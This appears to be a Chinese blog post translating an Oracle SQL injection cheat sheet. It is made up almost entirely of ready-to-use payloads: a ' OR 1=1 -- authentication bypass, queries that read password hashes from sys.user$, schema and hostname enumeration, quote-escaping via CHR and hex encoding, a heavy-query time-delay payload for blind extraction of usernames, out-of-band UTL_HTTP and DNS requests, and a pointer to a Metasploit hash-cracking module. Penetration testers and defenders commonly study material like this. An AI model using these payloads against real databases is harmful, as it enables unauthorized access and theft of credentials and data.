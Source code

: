 ```yaml
---
title: SQLi Oracle 基础知识
date: 2018-03-22 15:54:24
tags:
		- SQLi
		- 翻译
		 
categories:
		- 翻译
---
```


翻译：SQL注入之Oracle篇。

<!-- more -->



#### [Oracle](https://websec.ca/kb/sql_injection#Oracle_Default_Databases)

#### 默认数据库

	SYSTEM	Available in all versions 所有版本
	SYSAUX	Available in all versions 所有版本


#### 注释

以下的语句可以注释掉注入语句的其余部分

	--	SQL comment

__例子__

	SELECT * FROM Users WHERE username = '' OR 1=1 --' AND password = '';


#### 版本

	SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';
	SELECT banner FROM v$version WHERE banner LIKE 'TNS%';
	SELECT version FROM v$instance;

__注意__

- `Oracle`所有的`select`语句必须包含一个表
- `dual`是一个虚拟的表可以被用来测试(下面的翻译可能要好)
- `dual`是一个可用于测试的虚拟表

#### 数据库凭证

	SELECT username FROM all_users;	Available on all versions
	SELECT name, password from sys.user$;	Privileged, <= 10g
	SELECT name, spare4 from sys.user$;	Privileged, <= 11g

#### 数据库名字

##### 当前数据库

	SELECT name FROM v$database;
	SELECT instance_name FROM v$instance
	SELECT global_name FROM global_name
	SELECT SYS.DATABASE_NAME FROM DUAL

##### 用户数据库

	SELECT DISTINCT owner FROM all_tables;


#### 服务器主机名字

	SELECT host_name FROM v$instance; (Privileged)
	SELECT UTL_INADDR.get_host_name FROM dual;
	SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual;
	SELECT UTL_INADDR.get_host_address FROM dual;

#### 表和列

__获取表__

	SELECT table_name FROM all_tables;

__获取列__

	SELECT column_name FROM all_tab_columns;

__从列名中查找表__

	SELECT column_name FROM all_tab_columns WHERE table_name = 'Users';

__从表名中查找列__

	SELECT table_name FROM all_tab_tables WHERE column_name = 'password';

__一次获取多张表__

	SELECT RTRIM(XMLAGG(XMLELEMENT(e, table_name || ',')).EXTRACT('//text()').EXTRACT('//text()') ,',') FROM all_tables;

#### 逃逸引号

不像其他关系型数据库，`Oracle`允许表/列名字编码

	SELECT 0x09120911091 FROM dual;	Hex Encoding.
	SELECT CHR(32)||CHR(92)||CHR(93) FROM dual;	CHR() Function.


#### 字符串连接

	SELECT 'a'||'d'||'mi'||'n' FROM dual;

#### 条件语句

	SELECT CASE WHEN 1=1 THEN 'true' ELSE 'false' END FROM dual

#### 时间

__延迟__

	SELECT UTL_INADDR.get_host_address('non-existant-domain.com') FROM dual;

__严重时间延迟__

	AND (SELECT COUNT(*) FROM all_users t1, all_users t2, all_users t3, all_users t4, all_users t5) > 0 AND 300 > ASCII(SUBSTR((SELECT username FROM all_users WHERE rownum = 1),1,1));

#### 权限

	SELECT privilege FROM session_privs;
	SELECT grantee, granted_role FROM dba_role_privs; (Privileged)

#### 带外通道

__DNS 请求__

	SELECT UTL_HTTP.REQUEST('http://localhost') FROM dual;
	SELECT UTL_INADDR.get_host_address('localhost.com') FROM dual;

#### 密码破解

一个`Metasploit`模块[`JTR`](https://www.rapid7.com/db/modules/auxiliary/analyze/jtr_oracle_fast)

